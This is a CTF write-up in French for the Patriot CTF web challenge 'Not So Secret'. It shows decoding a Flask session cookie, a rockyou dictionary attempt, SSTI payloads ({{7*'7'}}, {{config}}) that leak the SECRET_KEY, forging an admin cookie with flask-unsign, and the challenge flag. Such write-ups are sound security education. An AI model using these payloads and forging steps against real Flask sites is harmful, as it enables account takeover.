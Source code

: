 # Patriot CTF

## Web

### Not So Secret

**Difficulté :** Moyen

**Enoncé :** Je suis en train de créer la prochaine grande plateforme de réseaux sociaux, mais j'ai l'habitude de mettre en place des logiciels non sécurisés.

Si vous pouvez vous connecter à l'utilisateur administrateur, je vous donnerai le flag.

Quelqu'un a piraté mon site après que j'ai lu son message, donc je ne lis plus les DM qui me sont envoyés ! > :( 

En plus de cela, j'impose un filtre de caractères spéciaux encore plus sévère parce que je ne sais pas vraiment comment patcher mon code.

p.s. Pour vous faire gagner du temps, n'essayez pas d'obtenir un reverse shell

***

En se connectant au site, on peut apercevoir que le cookie de session est un cookie Flask :

```
.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q
```

Je commence par décoder le cookie avec **flask-unsign** :

```
flask-unsign --decode --cookie 'eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q'
```

Valeur du cookie :

```
{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '2'}
```

On peut constater que la valeur `'_user_id'` est à 2.
Il est fort probable que la valeur 1 soit le compte administrateur.

J'essaye par la suite de bruteforce le cookie par attaque de dictionnaire mais non-concluant :

```
flask-unsign --unsign --cookie ".eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q" --wordlist ~/rockyou.txt --no-lit
eral-eval
```

Il nous manque la clé pour signer notre cookie Flask, je décide donc de regarder côté serveur web pour récupérer cette valeur.

Sur la page d'envois de message, je remarque qu'une faille SSTI (Server Side Template Injection) est exploitable grâce à un simple payload : `{{7*'7'}}`

![image](https://user-images.githubusercontent.com/49941629/166097821-b3fa5a63-abac-40f1-bfe5-00b2e5cae5ab.png)

Je vais donc essayer de récupérer la configuration serveur en injectant le payload `{{config}}` :

```
Just sent your message: <Config {'ENV': 'production',
'DEBUG': False,
'TESTING': False,
'PROPAGATE_EXCEPTIONS': None, 
'PRESERVE_CONTEXT_ON_EXCEPTION': None, 
'SECRET_KEY': 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd', 
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 
'USE_X_SENDFILE': False, 
'SERVER_NAME': None, 
'APPLICATION_ROOT': '/', 
'SESSION_COOKIE_NAME': 'session', 
'SESSION_COOKIE_DOMAIN': False,
'SESSION_COOKIE_PATH': None, 
'SESSION_COOKIE_HTTPONLY': False, 
'SESSION_COOKIE_SECURE': False, 
'SESSION_COOKIE_SAMESITE': None, 
'SESSION_REFRESH_EACH_REQUEST': True, 
'MAX_CONTENT_LENGTH': None, 
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 
'TRAP_BAD_REQUEST_ERRORS': None, 
'TRAP_HTTP_EXCEPTIONS': False, 
'EXPLAIN_TEMPLATE_LOADING': False, 
'PREFERRED_URL_SCHEME': 'http', 
'JSON_AS_ASCII': True, 
'JSON_SORT_KEYS': True, 
'JSONIFY_PRETTYPRINT_REGULAR': False, 
'JSONIFY_MIMETYPE': 'application/json', 
'TEMPLATES_AUTO_RELOAD': None, 
'MAX_COOKIE_SIZE': 4093, 
'SQLALCHEMY_DATABASE_URI': 'sqlite:///db.sqlite', 
'SQLALCHEMY_TRACK_MODIFICATIONS': False, 
'UPLOAD_FOLDER': '/app/app/uploads', 
'SQLALCHEMY_BINDS': None, 
'SQLALCHEMY_NATIVE_UNICODE': None, 
'SQLALCHEMY_ECHO': False, 
'SQLALCHEMY_RECORD_QUERIES': None, 
'SQLALCHEMY_POOL_SIZE': None,
'SQLALCHEMY_POOL_TIMEOUT': None, 
'SQLALCHEMY_POOL_RECYCLE': None, 
'SQLALCHEMY_MAX_OVERFLOW': None, 
'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 
'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Je récupère la valeur de la clé : `'SECRET_KEY': 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd'` et je modifie le cookie afin de le faire correspondre au compte admin :

```
flask-unsign --sign --cookie "{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '1'}" --secret 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd'
```

![image](https://user-images.githubusercontent.com/49941629/166097953-0f4dcb33-87fe-4fc6-bf3f-efcbc8217dd3.png)

Il ne me reste plus qu'à m'authentifier avec le cookie admin et récupérer le flag.

FLAG : PCTF{y0u_can_s1gn_my_c00k13s_anyt1m3_;)}


